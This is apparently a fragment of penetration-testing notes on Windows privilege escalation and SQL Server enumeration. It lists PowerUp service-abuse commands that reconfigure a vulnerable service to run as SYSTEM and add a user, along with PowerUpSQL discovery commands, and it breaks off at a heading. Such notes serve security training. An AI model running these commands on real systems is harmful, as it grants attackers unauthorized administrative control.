 ### Local Enumeration

- whoami /priv

- Files and Directorys
```
C:\program files\

C:\program files (x86)\

C:\users\bob\document

C:\users\bob\desktop

C:\users\bob\.ssh

C:\program Files\setup\mail.ps1

C:\inetpub\wwwroot\login.aspx (If web app uses MSSQL)
```
- Local Session

Available tokens of other users/services

- Vulnerable Service
```powershell
ipmo .\powerup.ps1

invoke-allchecks

sc qc vuln

sc config vuln start demand  //Change start type

sc config vuln obj "NT AUTHORITY\SYSTEM"  //Change owner

Invoke-serviceabuse -name 'vuln' -username 'red\alice'  //Abuse
```

### SQL Server Instance

- Instance
```powershell
get-sqlinstancelocal

get-sqlinstancedomain

Get-SQLConnectionTest -Instance "srv-1.red.com,1433"
```
- Server Info
```powershell
get-sqlserverinfo -instance "redsql\sqlexpress"
```
- Privilege Enumeration

